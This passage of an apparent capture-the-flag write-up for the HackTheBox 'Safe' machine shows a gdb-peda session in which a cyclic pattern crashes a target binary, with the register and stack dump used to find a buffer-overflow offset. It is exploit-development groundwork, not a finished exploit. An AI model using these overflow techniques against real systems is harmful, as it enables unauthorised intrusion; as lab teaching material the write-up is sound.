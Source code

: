
Now I’ll run the program, and enter the pattern:

    
    
    gdb-peda$ r
    Starting program: /media/sf_CTFs/hackthebox/safe-10.10.10.147/myapp                              
    [Detaching after vfork from child process 15829]
     14:20:10 up 13 days,  2:04, 32 users,  load average: 1.24, 1.22, 1.10           
    
    What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAA
    YAAwAAZAAxAAyA
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
    

On hitting enter, I reach a crash:

    
    
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    RAX: 0x0 
    RBX: 0x0 
    RCX: 0x7ffff7ecead4 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
    RDX: 0x7ffff7f9f580 --> 0x0 
    RSI: 0x405260 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...
    )
    RDI: 0x0 
    RBP: 0x41414e4141384141 ('AA8AANAA')
    RSP: 0x7fffffffdfb8 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    RIP: 0x4011ac (<main+77>:       ret)
    R8 : 0xc9 
    R9 : 0x0 
    R10: 0x4003e0 --> 0x6972700073747570 ('puts')
    R11: 0x246 
    R12: 0x401070 (<_start>:        xor    ebp,ebp)
    R13: 0x7fffffffe090 --> 0x1 
    R14: 0x0 
    R15: 0x0
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x4011a1 <main+66>:  call   0x401030 <puts@plt>
       0x4011a6 <main+71>:  mov    eax,0x0
       0x4011ab <main+76>:  leave  
    => 0x4011ac <main+77>:  ret    
       0x4011ad:    nop    DWORD PTR [rax]
       0x4011b0 <__libc_csu_init>:  push   r15
       0x4011b2 <__libc_csu_init+2>:        mov    r15,rdx
       0x4011b5 <__libc_csu_init+5>:        push   r14
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdfb8 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0008| 0x7fffffffdfc0 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0016| 0x7fffffffdfc8 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0024| 0x7fffffffdfd0 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0032| 0x7fffffffdfd8 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0040| 0x7fffffffdfe0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0048| 0x7fffffffdfe8 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0056| 0x7fffffffdff0 ("AuAAXAAvAAYAAwAAZAAxAAyA")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value